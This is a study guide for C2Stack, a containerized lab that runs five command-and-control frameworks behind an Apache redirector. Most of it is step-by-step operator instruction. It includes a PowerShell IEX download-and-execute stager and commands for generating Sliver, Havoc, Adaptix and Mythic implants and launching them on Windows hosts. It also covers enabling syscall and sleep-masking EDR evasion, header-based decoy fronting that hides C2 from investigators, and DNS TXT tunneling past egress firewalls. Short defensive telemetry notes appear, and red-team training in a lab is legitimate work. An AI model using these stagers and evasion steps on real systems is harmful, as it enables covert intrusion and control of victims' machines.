

# C2Stack Practice & Study Guide
### *A Hands-On Field Guide to Modern Command & Control (C2), Fronting Infrastructure, and Egress Analysis*

---

## 1. Executive Overview & Real-World Value

In modern adversary simulation, red teaming, and threat hunting, **Command and Control (C2)** is the nervous system of an engagement. However, deploying raw C2 teamservers directly on public IP addresses is an outdated, high-risk practice. Modern operators and advanced persistent threats (APTs) rely on **multi-tier redirector architectures**, **covert egress channels**, and **diversified payload frameworks** to ensure resilience, OPSEC shielding, and persistence.

**C2Stack** provides a containerized, reproducible practice range that models enterprise-grade C2 infrastructure with zero hypervisor overhead.

```
┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                       C2STACK VALUE PROPOSITION                                  │
├──────────────────────────────────────┬───────────────────────────────────────────────────────────┤
│ 🎯 FOR OFFENSIVE PRACTITIONERS        │ 🛡️ FOR DEFENDERS & DFIR INVESTIGATORS                     │
├──────────────────────────────────────┼───────────────────────────────────────────────────────────┤
│ • Master 5 distinct C2 paradigms     │ • Capture raw network & host telemetry (Zeek/Sysmon)     │
│ • Practice Apache header-based front │ • Analyze high-entropy DNS TXT tunneling patterns         │
│ • Hands-on DNS covert channels       │ • Dissect in-memory evasion & sleep masking               │
│ • Automate multi-transport failovers │ • Build and evaluate Sigma/Suricata detection rules       │
└──────────────────────────────────────┴───────────────────────────────────────────────────────────┘
```

---

## 2. Infrastructure Architecture & Mental Model

```
                                  VICTIM NETWORK (CADRE Range / Standalone Host)
                                                │
                                                ▼
                   ┌───────────────────────────────────────────────────────────┐
                   │            1. EDGE GATEWAY (Apache Redirector)            │
                   │  Port 80 (c2_edge) · Header: X-Request-ID: cadre-c2      │
                   └───────────────┬───────────────────────────┬───────────────┘
                                   │                           │
                        [NO/INVALID HEADER]              [VALID HEADER]
                                   │                           │
                                   ▼                           ▼
                        ┌─────────────────────┐    ┌───────────────────────────┐
                        │   CloudEdge CDN     │    │  2. ISOLATED c2_core NET  │
                        │   Benign Decoy      │    │  (Zero Internet Egress)   │
                        └─────────────────────┘    └─────────────┬─────────────┘
                                                                 │
         ┌─────────────────────┬───────────────────┬─────────────┴───────┬─────────────────────┐
         ▼                     ▼                   ▼                     ▼                     ▼
┌─────────────────┐   ┌─────────────────┐ ┌─────────────────┐   ┌─────────────────┐   ┌─────────────────┐
│   MERIDIAN C2   │   │    HAVOC C2     │ │    SLIVER C2    │   │   ADAPTIX C2    │   │    MYTHIC C2    │
│  :8080 (HTTP)   │   │  :80 (HTTP C2)  │ │  :80 (HTTP C2)  │   │  :80 (HTTP C2)  │   │  :80 (HTTP C2)  │
│  :5353/udp (DNS)│   │  :40056 (TS)    │ │  :31337 (gRPC)  │   │  :4321 (Qt TS)  │   │  :7443 (UI)     │
└────────┬────────┘   └────────┬────────┘ └────────┬────────┘   └────────┬────────┘   └────────┬────────┘
         │                     │                   │                     │                     │
         └─────────────────────┴───────────────────┼─────────────────────┴─────────────────────┘
                                                   ▼
                                  3. OPERATOR WORKSTATION (Kali Linux)
```

### The Three Operational Layers:

1. **The Edge Redirector Layer (`c2_edge`)**:
   - The only public-facing container.
   - Evaluates the incoming `X-Request-ID` header. If missing or altered (e.g., security researchers, internet scanners, or automated blue-team scrapers), Apache returns a legitimate **CloudEdge CDN Decoy Page**.
   - Valid requests are reverse-proxied over the internal Docker network to the matching framework according to URI prefix.

2. **The Isolated Core Layer (`c2_core`)**:
   - Internal bridge network with `internal: true` (zero direct internet route).
   - Teamservers cannot accidentally leak their real public IP or establish uncontrolled outbound connections.

3. **The Multi-Framework Matrix**:
   - Five purpose-built C2 frameworks providing a spectrum of capabilities from ultra-lightweight DNS tunneling to deep Windows kernel evasion.

---

## 3. Framework Selection & Comparison Matrix

| Framework | Core Strength | Payload Architecture | Primary Transport | Operator Interface | Real-World Use Case |
|---|---|---|---|---|---|
| **Meridian** | Ultra-lightweight, Zero-dep | Pure Go (Stdlib only) | **HTTP(S) + Chunked DNS TXT** | Python CLI / TUI | Restricted network egress & DNS covert channels |
| **Havoc** | In-memory Windows Evasion | C++ Demon (Syscalls / Ekko) | HTTP / HTTPS / SMB | C++ Qt5 Desktop GUI | High-security Windows endpoints & EDR evasion |
| **Sliver** | Lateral Movement & Armory | Go / C# / Rust Implants | mTLS / WireGuard / HTTP | Go CLI / gRPC | General campaign operations & post-exploitation |
| **Adaptix** | Multiplayer Operations | Go/C++ Beacon & Gopher | HTTP/S / DNS / SMB / TCP | C++ Qt5 Desktop GUI | Multi-operator red team collaborations |
| **Mythic** | Enterprise Microservices | Modular Agents (Apollo/Poseidon) | Profile-driven (HTTP/WS) | React Web Browser UI | Multi-platform enterprise simulation |
| **Loki** *(not in this repo)* | Living-off-the-Cloud | PowerShell / .NET | Azure Blob Storage | CLI / Azure SDK | Cloud-first & Azure Hybrid AD environments |

---

## 4. Visual Learning Hub: C2Stack Flight Control (`http://localhost:8000`)

To eliminate the friction of juggling disparate CLI tools, desktop Qt applications, and raw Docker socket commands, C2Stack features an integrated, containerized web interface: **C2Stack Flight Control**.

Styled in C2Stack's signature **Warm Obsidian-Amber** palette (mirroring the logo's amber shield `#fbbf24` $\rightarrow$ `#b45309` and espresso card backdrops), the portal bridges all five frameworks into a single visual educational cockpit.

<p align="center">
  
</p>

```

┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│ 🌐 C2STACK // FLIGHT CONTROL & VISUAL LEARNING HUB                              [PORTAL :8000]   │
├──────────────────────────────────────────────────────────────────────────────────────────────────┤
│                                                                                                  │
│  [1. LIVE OPSEC REDIRECTOR WATERFALL (Interactive Packet Inspection)]                            │
│                                                                                                  │
│      [ Victim IP: 192.168.100.62 ]                                                                │
│                   │                                                                              │
│                   ▼                                                                              │
│         [ Apache Port 80 ] ──▶ Evaluates Header: `X-Request-ID`                                  │
│                                           │                                                      │
│                   ┌───────────────────────┴───────────────────────┐                              │
│         Header = "cadre-c2"                               Missing / Scanners                     │
│                   ▼                                               ▼                              │
│       🟢 [ ROUTED TO C2 CORE ]                           🛡️ [ CLOUDEDGE DECOY CDN ]              │
│       • URI: `/meridian/beacon` ➔ Meridian :8080         • Serves HTTP 200 Benign CDN HTML       │
│       • URI: `/sliver/session`  ➔ Sliver :80             • Blue Team / Scanners see NO C2!       │
│                                                                                                  │
│  [2. MERIDIAN DNS TXT COVERT TUNNEL DISSECTOR (Educational Telemetry)]                           │
│  [15353/UDP] IN:  `01.A3F99B.c2.lab.local`  ➔ Length: 36 bytes (Base32 Chunk 1/2)             │
│  [15353/UDP] IN:  `02.A3F99B.c2.lab.local`  ➔ Length: 28 bytes (Base32 Chunk 2/2)             │
│  [DECRYPTED]: X25519 DH + AES-GCM Envelope ➔ Payload: `whoami /groups`                           │
│                                                                                                  │
│  [3. CROSS-FRAMEWORK PAYLOAD STUDIO]                                                             │
│  Framework: [ Sliver ▼ ]   Target: [ Windows x64 ▼ ]   Transport: [ HTTP via Redirector ▼ ]      │
│  One-Liner Stager:                                                                               │
│  powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.100.1/s')" │
│  [ 📋 Copy Command ]    [ 💾 Download Compiled Implant ]    [ 🧪 Simulate Beacon Callback ]      │
│                                                                                                  │
│  [4. UNIFIED FLEET RADAR]                                                                        │
│  Session ID   C2 Engine   Target Host   User         Transport      Last Beacon   Status         │
│  c2-901a      Sliver      win-target          analyst   HTTP (Proxy)   2s ago        🟢 Active      │
│  c2-44f2      Meridian    DC01          SYSTEM       DNS TXT        14s ago       🟢 Active      │
└──────────────────────────────────────────────────────────────────────────────────────────────────┘
```

### How to Use the UI for Learning:

#### A. Learn OPSEC Redirector Mechanics (Tab 2: OPSEC Redirector Visualizer)
- **The Concept**: Why can't defenders easily find your C2 server by port-scanning your IP address?
- **How to Practice in the UI**:
  1. Click **`🔴 Threat Hunter / Shodan (No Header)`** $\rightarrow$ Click **Inspect Flow**.
     - *Observation*: Watch the red divert line fire. The Apache rewrite engine notices the missing `X-Request-ID` header and diverts the request to the **CloudEdge CDN Decoy Page** (HTTP 200). The internal C2 core remains 100% invisible.
  2. Click **`🟢 Victim Callback (Valid Header)`** $\rightarrow$ Click **Inspect Flow**.
     - *Observation*: Watch the green verification line trigger. The header is authenticated, and the request is proxied into the internal `c2_core` container (e.g., `http://meridian:8080/gateway/v1/telemetry`) over Docker's internal DNS.
  3. Click **`🟡 Valid Header (Unknown URI)`**.
     - *Observation*: Observe how path-prefix routing isolates frameworks, returning an intentional 404 for non-matching endpoints.

#### B. Dissect DNS TXT Covert Tunneling (Tab 3: DNS Covert Dissector)
- **The Concept**: How do modern implants bypass egress firewalls that block all outbound TCP ports (80, 443, 8080) by hiding commands inside legitimate UDP DNS queries?
- **How to Practice in the UI**:
  1. Enter any payload command in the input box (e.g., `whoami /priv && net user /domain`).
  2. Click **Dissect & Chunk ➔**.
  3. Inspect the **Live Metrics**:
     - *Original Payload Bytes*: Raw UTF-8 string size.
     - *Base32 Encoded Length*: Why Base32? (RFC 4648 uses only `A-Z` and `2-7`, which are strictly valid DNS hostname characters).
     - *Packets Generated*: Understand why large commands must be chunked into multiple sequential queries.
  4. Inspect the **Waterfall Table**:
     - See how each query is assembled: `<seq>.<session_id>.<chunk>.<domain_suffix>`.
     - Verify the **Label Safe** check: RFC 1035 limits individual DNS subdomain labels to a maximum of 63 characters (Meridian uses a safe 36-byte chunk limit).
  5. Read the **Educational Notes**: Learn how threat hunters use Shannon entropy and query volume to detect DNS tunneling in SIEMs/Zeek.

#### C. Compare Payload Syntaxes & Blue Team Traces (Tab 4: Payload Studio)
- **The Concept**: How do commands, delivery mechanisms, and detection footprints differ across Go, C++, and modular microservice C2s?
- **How to Practice in the UI**:
  1. Select a framework from the sidebar (**Meridian**, **Sliver**, **Havoc**, **Adaptix**, or **Mythic**).
  2. Examine the generated **Delivery Commands**: Click **📋 Copy One-Liner** to get ready-to-paste PowerShell IEX download strings, bash curl stagers, or compilation instructions.
  3. Examine the **🛡️ Blue Team & DFIR Telemetry Profile**:
     - Review which **Sysmon Event IDs** are generated (e.g., Event ID 1 for process creation, Event ID 7 for CLR loading during Sliver's `execute-assembly`, Event ID 22 for DNS queries).
     - Review network artifacts and YARA detection signatures.

#### D. Monitor Infrastructure Health & Logs (Tab 1: Stack Controller)
- Inspect status badges for all 6 containers: **Redirector**, **Meridian**, **Sliver**, **Havoc**, **Adaptix**, **Mythic**.
- Click **📄 View Logs** on any service card to stream real-time container stdout/stderr output without needing `docker logs` terminal commands.
- Click **↻ Restart** to gracefully bounce any teamserver.

---

## 5. Step-by-Step Standalone Setup

### Step 1: Environment Initialization

1. Clone or navigate to the `C2Stack/Docker` directory:
   ```bash
   cd C2Stack/Docker
   ```
2. Copy the environment configuration:
   ```bash
   cp .env.example .env
   ```
3. Review key settings in `.env`:
   - `PORTAL_PORT=8000` (Flight Control Web UI port)
   - `REDIRECTOR_HTTP_PORT=80` (or `8080` if 80 is occupied)
   - `C2_HEADER_NAME=X-Request-ID`
   - `C2_HEADER_VALUE=cadre-c2`
   - `MERIDIAN_DNS_PORT=15353` (host UDP port; container listener is `5353/udp`).

### Step 2: Stack Bring-Up

**Windows (PowerShell 7+):**
```powershell
.\docker-bootstrap.ps1               # Default: Portal + Redirector + Meridian + Sliver + Havoc
.\docker-bootstrap.ps1 -Mythic       # Include Mythic
.\docker-bootstrap.ps1 -Adaptix      # Include Adaptix
.\docker-bootstrap.ps1 -All          # All 5 frameworks + Portal
```

**Linux / macOS (Bash):**
```bash
./docker-bootstrap.sh               # Default: Portal + Redirector + Meridian + Sliver + Havoc
./docker-bootstrap.sh --mythic      # Include Mythic
./docker-bootstrap.sh --adaptix     # Include Adaptix
./docker-bootstrap.sh --all         # All 5 frameworks + Portal
```

### Step 3: Access the Visual Learning Cockpit

Open your browser and navigate to:
👉 **`http://localhost:8000`**

Verify that all service status cards display **● RUNNING** in green.

---

## 6. Hands-On Lab Exercises

### Lab Module 0: Visual OPSEC & DNS Validation (Using Flight Control)

**Objective**: Verify fronting and covert channels visually before dropping implants on targets.

1. Open **`http://localhost:8000`** $\rightarrow$ Select **OPSEC Redirector Visualizer**.
2. Click **Victim Callback (Valid Header)** $\rightarrow$ verify that the animated trace routes to `Meridian (:8080)`.
3. Open a separate terminal and confirm raw curl matches the visualizer:
   ```bash
   curl -i -H "X-Request-ID: cadre-c2" http://localhost:80/gateway/v1/telemetry/
   ```
4. Click **Threat Hunter / Shodan (No Header)** $\rightarrow$ verify the decoy diversion. Run curl to confirm:
   ```bash
   curl -i http://localhost:80/
   ```
5. Select **DNS TXT Covert Dissector** $\rightarrow$ enter `whoami /priv` $\rightarrow$ copy the generated query `#01` and run a manual query:
   ```powershell
   Resolve-DnsName -Name "<generated_fqdn>" -Type TXT -Server "127.0.0.1"
   ```

---

### Lab Module 1: Meridian (DNS Covert Tunneling & Transport Failover)

**Objective**: Deploy a zero-dependency implant, establish C2 communication over HTTP, simulate a firewall block, and watch the implant automatically fail over to chunked DNS TXT tunneling.

```
┌────────────────────────────────────────────────────────────────────────┐
│ LAB 1: MERIDIAN AIR-GAP & DNS ESCAPE                                   │
│                                                                        │
│   [Target Host]                               [C2Stack Host]           │
│   ┌─────────────┐   1. HTTP Checkin (Blocked)   ┌─────────────────┐    │
│   │  parallax   │ ────────────────────────────▶ │    Redirector   │    │
│   │   implant   │                               │ (Drop / Reject) │    │
│   │             │   2. Auto Failover to DNS     └─────────────────┘    │
│   │             │ ────────────────────────────▶ ┌─────────────────┐    │
│   └─────────────┘       UDP 5353 (Base32 TXT)   │ Meridian DNS C2 │    │
│                                                 └─────────────────┘    │
└────────────────────────────────────────────────────────────────────────┘
```

#### Hands-On Steps:
1. **Locate Precompiled Implants**:
   The Meridian container automatically builds static binaries on startup located in `/opt/meridian/payloads/`:
   - `parallax-linux-amd64` (Linux ELF static)
   - `parallax-windows-amd64.exe` (Windows PE static)
2. **Execute Implant with Dual Transports**:
   On your test VM or target host:
   ```bash
   # Linux Target (canonical form — base URL + prefix as SEPARATE vars):
   export MERIDIAN_HTTP="http://<C2STACK_IP>:80"
   export MERIDIAN_URI_PREFIX="/gateway/v1/telemetry"
   export MERIDIAN_DNS="<C2STACK_IP>:15353"
   export MERIDIAN_DNS_DOMAIN="c2.lab.local"
   ./parallax-linux-amd64
   ```
   > ⚠️ **Do NOT put the route path in both vars.** The implant requests
   > `MERIDIAN_HTTP + MERIDIAN_URI_PREFIX + /api/v1/kex`. Setting
   > `MERIDIAN_HTTP="http://<IP>:80/gateway/v1/telemetry"` **and**
   > `MERIDIAN_URI_PREFIX="/gateway/v1/telemetry"` doubles the prefix
   > (`.../telemetry/gateway/v1/telemetry/api/v1/kex` → backend 404) and the
   > implant never checks in. Pick ONE form: base+prefix (above), or the full
   > path in `MERIDIAN_HTTP` with `MERIDIAN_URI_PREFIX` left unset.
3. **Interact via the Meridian Console**:
   Inside the Meridian container or via Kali CLI:
   ```bash
   docker compose exec -it meridian python3 -m meridian.cli
   ```
   - Run `sessions` to see the new connection.
   - Run `use <session_id>`
   - Run `exec whoami` or `shell uname -a`
   - Run `results` to view encrypted-at-rest execution output.
4. **Simulate Firewall Blocking**:
   Block outbound HTTP on the target host (`iptables -A OUTPUT -p tcp --dport 80 -j DROP`). Observe that the beacon loop automatically switches to chunked DNS TXT queries over UDP `<C2STACK_IP>:15353` (mapped to the container's 5353/udp) without session disruption.

---

### Lab Module 2: Sliver (Lateral Movement & In-Memory Execution)

**Objective**: Build an obfuscated Go beacon, route through the redirector prefix `/cloud/storage/objects`, and execute in-memory triage tools.

#### Hands-On Steps (all verified 2026-10-04 against v1.7.7):

> Sliver implants can NOT send custom headers, so unlike every other
> framework there is no `X-Request-ID` to configure: the redirector matches
> the Sliver route on path alone (`/cloud/storage/objects`).

1. **Verify the HTTP listener** (created automatically at container start —
   do NOT recreate it; a second `http` command fails with "port 80 is in use"):
   ```bash
   docker exec c2stack-sliver-1 sh -c \
     "printf 'jobs\nwebsites show edge\nexit\n' > /tmp/j.rc; sliver-client console --rc /tmp/j.rc"
   ```
   Expect job `http ... 80` and the `edge` website (`/`, `/assets`,
   `/bundles`, `/script`, `/scripts` — CDN-disguise pages, not C2 paths).
2. **Generate a Sliver payload** — a `session` implant calls straight back as
   a taskable session; a `beacon` only checks in periodically and needs
   `interactive` before it takes tasks:
   ```bash
   docker exec c2stack-sliver-1 sh -c \
     "printf 'generate session --http <C2STACK_IP>:80/cloud/storage/objects --os windows --arch amd64 --save /tmp/sess.exe\nexit\n' > /tmp/g.rc; sliver-client console --rc /tmp/g.rc"
   docker cp c2stack-sliver-1:/tmp/sess.exe ./sess.exe
   ```
3. **Execute & Interact** — deliver `sess.exe` to the target (WMI launch keeps
   it detached from your SSH session):
   ```cmd
   wmic process call create 'C:\Users\vagrant\Downloads\sess.exe'
   ```
   Task it headlessly — no console needed:
   ```bash
   sliver-client implant --use <session_id> execute -o whoami
   sliver-client implant --use <session_id> getuid
   ```
   Notes that cost real debugging time: `execute` runs the binary directly
   with NO shell (`>`, `|`, `&&` are literal arguments — wrap shell work in
   `cmd.exe "/c ..."`); `implant --use` takes SESSION ids only; console `use`
   selection is TUI-driven and does not work from scripts (use the `implant`
   command group instead).

---

### Lab Module 3: Havoc (Windows Kernel & EDR Evasion)

**Objective**: Configure Havoc C++ Demon for memory evasion, direct syscalls, and sleep masking.

#### Hands-On Steps:
1. **Launch the Havoc GUI**:
   On Kali Linux:
   ```bash
   ./havoc client
   ```
   Connect to host `<C2STACK_IP>:40056` with credentials configured in Havoc profile.
2. **Configure HTTP Listener**:
   - Host: `<C2STACK_IP>`
   - Port: `80`
   - Path / Prefix: `/edge/cache/assets`
   - Headers: `X-Request-ID: cadre-c2`
3. **Generate Demon Payload**:
   - Select `x64 EXE` or `x64 DLL`.
   - Enable **Indirect Syscalls** and **Sleep Obfuscation (Ekko / Zilean)**.
4. **Execute & Validate**:
   Execute the Demon on Windows member servers (`win-target` or another member server). Verify via Process Hacker / Process Explorer that executable memory regions remain masked during sleep cycles.
5. **Drive the Demon headlessly** (no GUI needed — the full vocabulary is in
   `Docker/portal/havoc_client.py`, shapes extracted from the client's
   `ConsoleInput.cc`/`CommandSend.cc` and the teamserver's `demons.go`):
   ```bash
   # via the portal API (native Demon syntax; a bare line runs as `shell`):
   curl -s -X POST http://localhost:8000/api/ops/task \
     -H 'Content-Type: application/json' \
     -d '{"backend":"havoc","session_id":"<id>","command":"ls C:\\"}'
   ```
   Verified 2026-10-04 on win-target: `shell`, `powershell`, `ls/dir/pwd/cat/cp/mv/
   mkdir/rm`, `ps`, `sleep`, `checkin`, `token list/getuid`, `config
   implant.verbose`, `net domain`, `job list`, `task list` (14/14).
   Traps: `CommandID` must be NUMERIC (a string is silently coerced to 0 and
   the task is accepted but never runs); `ls` sends SubCommand `dir` (the
   daemon has no `ls` case); `NetCommand` is numeric (`domain`=1, see
   `DEMON_NET_COMMAND_*`); short replies arrive as `Message`-only frames;
   omitting `FromProcessManager` on `ps` panics the teamserver.

---

### Lab Module 4: Adaptix (Headless REST Operation)

**Objective**: Run the entire Adaptix operator flow — listener, beacon build,
tasking, results — with no Qt client, using the official REST API.

1. **Authenticate** (teamserver password, not the operator one — see
   `only_password` in `profile.yaml`):
   ```bash
   curl -sk -X POST https://<C2STACK_IP>:4321/endpoint/login \
     -H 'Content-Type: application/json' \
     -d '{"username":"operator1","password":"pass","version":"v1.2"}'
   ```
   A wrong password returns the Adaptix **404 decoy page**, not 401 — a 404
   means "rejected", never "missing route".
2. **Create the HTTP listener** (`POST /endpoint/listener/create`,
   `type: BeaconHTTP`): bind `0.0.0.0:80`, URI `/api/v1/sync`, request header
   `X-Request-ID: cadre-c2` (without it the redirector serves the decoy),
   empty `host_header` list (skips the Host check the redirector would break),
   `jitter` left at 0 (the vendored snapshot mixes seconds/milliseconds —
   upstream PR #379).
3. **Build the beacon** (`POST /endpoint/agent/generate`, `agent: beacon`,
   single listener): the teamserver compiles with mingw g++ and returns
   `base64(filename):base64(bytes)`.
4. **Task with AxScript vocabulary** (NOT shell syntax — a bare `whoami` is
   rejected): `getuid`, `ls <dir>`, `ps list`, `shell <cmdline>`,
   `powershell <cmdline>`, `cd/cat/mkdir/rm/upload/download`, `sleep`,
   `pwd`, `disks`.
5. **Read results without WebSocket**: `GET /endpoint/agent/task/list`
   returns completed tasks with `a_text` output.

Verified 2026-10-04 on win-target (11/11): `getuid`, `ls`, `pwd`, `ps list`,
`shell`, `powershell`, `cat`, `disks`, `sleep`, `jobs list`, `cd`. The
portal's Operations Console speaks this API natively (`/api/ops/adaptix/*`,
full catalogue at `/api/ops/catalogues`).

---

### Lab Module 5: Mythic/Apollo (Headless Build Sweep)

**Objective**: Build every Apollo output/keying variant through the REST API
and verify each artifact plus its callback behavior.

1. **Build via webhook**: `POST /api/v1.4/createpayload_webhook` with
   `input.payloadDefinition` as a **JSON string** (object → unmarshal error)
   containing `payload_type=apollo`, `selected_os=Windows`,
   `build_parameters` as a **LIST of `{name, value}`** (dict → error, though
   the build still queues with defaults), and `c2_profiles` with the `http`
   profile. C2 shape that works: bare `callback_host`
   (`http://<redir>`, NO port — OPSEC rejects ports) + full-path `post_uri`
   (`/cdn/media/stream/data`) — a rooted `post_uri` REPLACES any base path
   per `ParseURLAndPort`, so a path-carrying host + `data` silently phones
   `http://host/data` into the decoy. Webhook replies arrive as CONCATENATED
   JSON (`{...}{...}`) — parse defensively.
2. **Sweep matrix** (all verified 2026-10-04): `output_type` WinExe/Shellcode/
   Service/Source, `shellcode_format` Binary/Powershell, `debug=true`,
   keying Hostname match/mismatch and Domain, `adjust_filename`.
3. **Keying behavior**: a matching host calls back and tasks normally; a
   mismatched host exits silently with zero callbacks. Domain keying compares
   `Environment.UserDomainName` (NETBIOS, not FQDN). Registry keying is
   **broken upstream** — any real path fails the build (`Config.cs: CS1009`,
   the builder never escapes build-param backslashes).
4. **Read task output from the `response` table**, not `task.stdout` (which
   only ever holds the creation-time notice in this stack). The portal does
   this for you: `/api/ops/task` returns inline `output`.
5. **COFF loading** (verified live 2026-10-04): operator files upload via
   `POST /api/v1.4/task_upload_file_webhook` (multipart field `file` — JSON
   bodies get "Missing file in form") or the portal's
   `POST /api/ops/mythic/upload`. Build payloads WITH the loader commands,
   `register_file` the `.o` by filename ("Use Existing File"), then
   `execute_coff {coff_name, function_name: go, timeout}`. A mingw-built
   test object lives at `Docker/mythic/coff-test/cadre-test.x64.c`
   (`x86_64-w64-mingw32-gcc -c`); its output `cadre-coff-ok` proves the
   chain. Two traps, both verified: Beacon imports MUST be
   `__declspec(dllimport)` (the loader only resolves `__imp_Beacon*` —
   otherwise "RunCOFF failed with status: 1"), and `register_coff` needs the
   exact uploaded filename.

---

When C2Stack is used against the CADRE range, it generates realistic blue-team telemetry across multiple sensor layers:

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                        BLUE-TEAM TELEMETRY GENERATION MATRIX                           │
├───────────────────┬───────────────────────────────┬────────────────────────────────────┤
│ ARTIFACT LAYER    │ EVIDENCE PRODUCED             │ DFIR-NEXUS HUNTING QUERY / SIGMA   │
├───────────────────┼───────────────────────────────┼────────────────────────────────────┤
│ **DNS Server**    │ High-frequency TXT lookups    │ Query length > 50 chars, base32    │
│                   │ with subdomain entropy        │ regex: `^[A-Z2-7]{10,}\.c2\.`      │
├───────────────────┼───────────────────────────────┼────────────────────────────────────┤
│ **Web Proxy**     │ Regular HTTP beaconing with   │ Frequency / jitter analysis on     │
│                   │ static URI prefixes           │ `/gateway/v1/` and `/edge/cache/`  │
├───────────────────┼───────────────────────────────┼────────────────────────────────────┤
│ **Sysmon Host**   │ Event ID 1 (Process Create),  │ Suspicious parent-child spawns     │
│                   │ Event ID 3 (Network Connect)  │ (e.g. `rundll32.exe` making port 80)│
├───────────────────┼───────────────────────────────┼────────────────────────────────────┤
│ **Memory Dump**   │ In-memory beacon threads &    │ Volatility 3 `windows.malfind` &   │
│                   │ unbacked memory pages         │ YARA rules matching C2 signatures  │
└───────────────────────────────────────────────────┴────────────────────────────────────┘
```

---

---

## 8. End-to-End CADRE Lab Walkthrough (Beginner's First C2 Engagement)

If you have never operated a Command and Control (C2) framework before, this section walks you through your very first live adversary simulation against your **lab environment** (`192.168.100.0/24`).

---

### A. The "Never Used a C2" Mental Model

#### 1. Why Can't We Just Use SSH or RDP?
In ordinary system administration, you connect **inbound** to the server (`ssh admin@192.168.100.62`).
In a corporate enterprise, **inbound connections from the outside world are strictly blocked** by border firewalls, NAT, and Windows Defender Firewall. 

#### 2. The Reverse Callback (Beaconing) Paradigm
Modern C2 flips the connection direction:
```
[ Attacker / Redirector ] ◀────── Outbound Port 80 / UDP 15353 ─────── [ Victim Host (win-target) ]
```
The victim host calls **outbound** to your C2 redirector over allowed egress protocols (HTTP web traffic or DNS lookups). Corporate firewalls permit internal workstations to browse the web and resolve domain names, so the implant rides silently on these allowed protocols.

#### 3. Core Terminology Demystified:
- **Listener**: The receiving port on your C2 stack waiting for incoming beacons (Port 80 for HTTP, UDP 15353 for DNS).
- **Implant / Beacon**: The lightweight executable running on the target endpoint (`parallax-windows-amd64.exe` or Sliver's `beacon.exe`).
- **Sleep & Jitter**: Implants do not hold an open, continuous connection (which would be instantly flagged by network anomaly detection). Instead, they sleep for a configurable interval (e.g. 5 seconds $\pm$ 20% random jitter) between check-ins to ask: *"Do you have any tasks for me?"*
- **Asynchronous Tasking**: When you type a command in C2, it does not execute instantaneously like a Bash shell. It queues as a **Task**. On the implant's next check-in, it downloads the task, runs it locally, and uploads the encrypted **Result** on the subsequent check-in.
- **The Secret Handshake**: The Apache Redirector requires incoming HTTP requests to contain the header `X-Request-ID: cadre-c2`. If an incident responder, security researcher, or network scanner browses to the C2 IP without this header, Apache diverts them to the benign **CloudEdge CDN Decoy Page** (HTTP 200). Your teamserver remains invisible.

---

### B. Lab Network Topology & Addressing

```
┌────────────────────────────────────────────────────────┐
│ WINDOWS HOST MACHINE (C2Stack Host)                   │
│ • Docker Edge Redirector:  192.168.100.1:80 (HTTP)      │
│ • Docker Meridian Listener: 192.168.100.1:15353 (UDP)   │
│ • Flight Control Web UI:    http://localhost:8000      │
└───────────────────────────┬────────────────────────────┘
                            │ Lab network (192.168.100.0/24)
┌───────────────────────────┴────────────────────────────┐
│ CADRE ACTIVE DIRECTORY LAB                             │
│ • Target Beachhead Workstation: win-target (192.168.100.62)   │
│ • Operating System:             Windows 11 Enterprise  │
│ • Target User:                  LAB\analyst       │
└────────────────────────────────────────────────────────┘
```

---

### C. Step-by-Step Hands-On Exercise

#### Stage 1: Pre-Flight Check in the Flight Control UI
1. Open your browser to **`http://localhost:8000`**.
2. Confirm the **Stack Controller** tab displays `● RUNNING` in green for both **Redirector** and **Meridian**.
3. Switch to the **Fleet Radar** tab and leave it visible on one side of your screen.

---

#### Stage 2: Test Network Ingress & Decoy Protection from `win-target`
Before dropping any executable, verify how the target machine perceives your C2 redirector:

1. Open a PowerShell terminal on your host and connect to `win-target`:
   ```powershell
   ssh -i C:\Users\operator\.ssh\target-key analyst@192.168.100.62
   ```
2. **Test 1 — Unauthenticated Scanner Probe (No Header)**:
   ```cmd
   curl.exe -i http://192.168.100.1/
   ```
   - *Observation*: Notice the server returns `HTTP/1.1 200 OK` serving the **CloudEdge CDN Global Edge Cache** decoy page! If an analyst investigates the IP, they see only a harmless CDN.
3. **Test 2 — Authenticated Implant Probe (With C2 Header)**:
   ```cmd
   curl.exe -i -H "X-Request-ID: cadre-c2" http://192.168.100.1/gateway/v1/telemetry/
   ```
   - *Observation*: Notice the response originates from the internal Meridian backend (`404` or `405 Method Not Allowed` on raw GET, confirming the proxy reached the hidden core).

---

#### Stage 3: Stage the Meridian Implant on `win-target`
The Meridian container automatically builds static binaries on container startup inside `/opt/meridian/payloads/`.

1. In a PowerShell window on your host, copy the precompiled Windows binary from the container to your host:
   ```powershell
   docker cp docker-meridian-1:/opt/meridian/payloads/parallax-windows-amd64.exe .
   ```
